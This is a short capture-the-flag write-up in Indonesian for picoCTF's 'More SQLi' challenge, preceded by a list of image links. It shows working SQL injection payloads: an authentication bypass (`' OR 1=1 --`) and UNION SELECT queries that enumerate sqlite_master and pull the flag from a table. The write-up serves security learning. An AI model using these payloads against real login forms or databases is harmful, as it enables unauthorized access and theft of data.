








# More SQLi (picoCTF)

## Reference

- https://github.com/payloadbox/sql-injection-payload-list
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

## Steps

1. Launch instance terlebih dahulu, ketika dibuka muncul login page. Saya mencoba inject dengan beberapa payload. Disini saya menggunakan `' OR 1=1 --` dengan password bebas.

disini terlihat query SQL nya terbalik, sehingga hanya perlu untuk menukar inputnya

login berhasil

2. Setelah itu, kita akan mencoba beberapa payload untuk mencoba mendapatkan flag.

- `' UNION SELECT NULL,NULL,NULL --`
  

- `' UNION SELECT name,sql,NULL from sqlite_master;--`
  

- `' UNION SELECT flag,NULL,NULL from more_table;--`
  
